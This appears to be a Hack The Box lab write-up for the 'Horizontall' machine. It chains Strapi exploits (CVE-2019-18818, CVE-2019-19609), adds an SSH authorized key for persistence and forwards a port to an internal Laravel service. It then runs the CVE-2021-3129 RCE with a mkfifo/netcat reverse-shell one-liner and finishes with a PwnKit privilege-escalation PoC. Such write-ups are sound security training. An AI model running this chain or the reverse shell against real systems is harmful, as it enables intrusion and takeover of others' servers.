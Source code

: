 ```yaml
---
description: https://app.hackthebox.com/machines/Horizontall
---
```


# Horizontall

## Nmap

```
sudo nmap 10.10.11.105 -p- -sS -sV                                                                                      

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

{% hint style="info" %}
Add horizontall.htb to /etc/hosts.
{% endhint %}

Starting out we see a custom webpage running on Nginx. After running through directory enumeration we are unable to pull any interesting results.

![](<../../../.gitbook/assets/image (174).png>)

Checking the network requests manually we do see some .js

![](<../../../.gitbook/assets/image (373).png>)

Browsing manually to one of the requests we see a large amount of code within the application script.

![](<../../../.gitbook/assets/image (358).png>)

Using `CyberChef` we able to extract any information which may be of interest to us. In this case a sub domain URL.

**Cyberchef:** [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)

![](<../../../.gitbook/assets/image (465).png>)

{% hint style="info" %}
Add api-prod.horizontall.htb to /etc/hosts.
{% endhint %}

After adding _api-prod.horizontall.htb_ to our hosts file we are then able to browse to the root page as shown below.

![](<../../../.gitbook/assets/image (1128).png>)

`Feroxbuster` reveals an _/Admin_ directory which redirects to a Strapi login page.

```
feroxbuster -u http://api-prod.horizontall.htb -w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt
```

![](<../../../.gitbook/assets/image (135).png>)

![](<../../../.gitbook/assets/image (122) (2).png>)

Using `searchsploit` we are able to determine an unauthenticated `RCE` exists for version _3.0.0-beta.17.4_.

```bash
searchsploit -w "strapi"
```

![](<../../../.gitbook/assets/image (104).png>)

Checking the current version of Strapi with `curl` to determine if we are working with a vulnerable version.

```bash
curl "http://api-prod.horizontall.htb/admin/init"
```

![](<../../../.gitbook/assets/image (1625).png>)

The following exploit linked below allows a password reset for the admin account and a JWT to be generated which will be required for the next exploit.

**Github:** [https://www.exploit-db.com/exploits/50239](https://www.exploit-db.com/exploits/50239) **(CVE-2019-18818)**

**NIST:** [https://nvd.nist.gov/vuln/detail/CVE-2019-18818](https://nvd.nist.gov/vuln/detail/CVE-2019-18818)

![](<../../../.gitbook/assets/image (137).png>)

With the generated JWT token we can now perform the authenticated RCE exploit and gain a shell on the target system. (Remember to set up a netcat listener on port 9001 first.)

**Github:** [https://github.com/z9fr/CVE-2019-19609/blob/main/exploit.py](https://github.com/z9fr/CVE-2019-19609/blob/main/exploit.py) **(CVE-2019-19609)**

**NIST:** [https://nvd.nist.gov/vuln/detail/CVE-2019-19609](https://nvd.nist.gov/vuln/detail/CVE-2019-19609)

```
python3 exploit.py <rhost> <lhost> <jwt> <url>
python3 exploit.py api-prod.horizontall.htb 10.10.14.14 eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQ0NTI2ODgzLCJleHAiOjE2NDcxMTg4ODN9.2t51kjz4yTrHHUYHG3Ag799fLWiHLspwzccAX5bdsW0 http://api-prod.horizontall.htb/
```

![](<../../../.gitbook/assets/image (1504).png>)

![](<../../../.gitbook/assets/image (69) (2).png>)

For the next part we set up a `SSH` connection to allow easier exploitation of the target system.

**SSH**

For `SSH` access create a .ssh directory in the _strapi_ user home location and generate an `SSH` key and an authorized\_keys file.

```bash
# Create .ssh folder in /opt/strapi
mkdir /opt/strapi/.ssh

# Generate SSH key
ssh-keygen #Hit enter until complete

# Create authorized_keys file
touch authorized_keys

# echo contnets of id_rsa.pub into authorized_keys
echo "<Contents of id_rsa.pub>" > authroized_keys

# Next, copy id_rsa to the attacking system and SSH in as the strapi user.
ssh -i id_rsa strapi@10.10.11.105
```

![](<../../../.gitbook/assets/image (165).png>)

Now in via SSH and after performing some basic enumeration we see some interesting results for internal services running.

```bash
netstat -auntp
```

![](<../../../.gitbook/assets/image (56).png>)

Checking out what is running on the local ports with `curl` we see that under port 8000 Laravel v8 is running.

![](<../../../.gitbook/assets/image (124) (2).png>)

According to `searchsploit` Laravel v8 may be vulnerable to `RCE`.

![](<../../../.gitbook/assets/image (1425).png>)

In order to make the Laravel web page available to our attacking system we need to forward the internal port to our remote attacking host. With the SSH connection now setup we can reuse this as shown below:

**SSH forward remote port to local port**

```bash
ssh -i id_rsa strapi@10.10.11.105 -L 8000:127.0.0.1:8000
```

From which we can access Laravel over localhost on the attacking system.

![](<../../../.gitbook/assets/image (330).png>)

I did not have much luck with the `searchsploit` suggested PoC. However the PoC linked below worked much better.

**Github:** [https://github.com/nth347/CVE-2021-3129\_exploit](https://github.com/nth347/CVE-2021-3129\_exploit)

**Usage:**

```
git clone https://github.com/nth347/CVE-2021-3129_exploit.git
cd CVE-2021-3129_exploit
chmod +x exploit.py
./exploit.py http://localhost:8000 Monolog/RCE3 id
```

A reverse shell can be obtained with the following as `nc` is installed on the target system.

```bash
./exploit.py 'http://localhost:8000' Monolog/RCE2 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.15 9000 >/tmp/f"
```

![](<../../../.gitbook/assets/image (163) (2).png>)

**Exploit #2 CVE-2021-4034**

**NIST:** [https://nvd.nist.gov/vuln/detail/CVE-2021-4034](https://nvd.nist.gov/vuln/detail/CVE-2021-4034)

![](<../../../.gitbook/assets/image (31) (1).png>)

**Github:** [https://github.com/arthepsy/CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034) **(CVE-2021-4034)**

Download the exploit PoC to the target system, compile and execute.

```bash
wget 'http://<IP>/poc.c'
gcc 'poc.c' -o 'exploit'
chmod +x ./exploit
./exploit
```

![](<../../../.gitbook/assets/image (2052).png>)

